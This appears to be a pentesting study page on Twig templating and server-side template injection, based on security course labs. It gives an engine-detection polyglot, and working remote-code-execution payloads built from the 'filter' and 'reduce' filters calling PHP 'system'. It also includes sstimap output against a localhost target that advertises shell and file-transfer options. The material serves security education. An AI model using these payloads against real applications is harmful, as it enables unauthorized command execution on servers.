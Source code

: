 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Twig

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

PHP does not check data types, thus, treats strings as numbers. Both the examples below will be evaluated to `25`.

```twig
{{5*5}} 
{{5*'5'}}
```

A unique piece of Twig syntax is using `-` to trim whitespace.

```twig
{{-name-}}
```

A `for` loop.

```twig
{% raw %}
{% for product in cart %}
Widget
	Price:	${{product.price}}
	Quanity: {{product.quantity}}
	Total: 	${{product.quantity * product.price}}
{% endfor %}
{% endraw %}
```

A `if` statement and the use of the `capitalize` filter.

```twig
<h1>{% raw %}
{% if not admin %}sudo {% endif %}
{% endraw %}make me a sandwich, {{name|capitalize}}!</h1>
```

## SSTI

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 1).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 1: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](twig.md#manual)(Figure 2). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 2: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 3).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 3: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 4).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_reduce_1.png" alt=""><figcaption><p>Figure 4: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 5).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><img src="../../../../.gitbook/assets/web_ssti_reduce_2.png" alt=""><figcaption><p>Figure 5: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

[^1]: Remote Code Execution
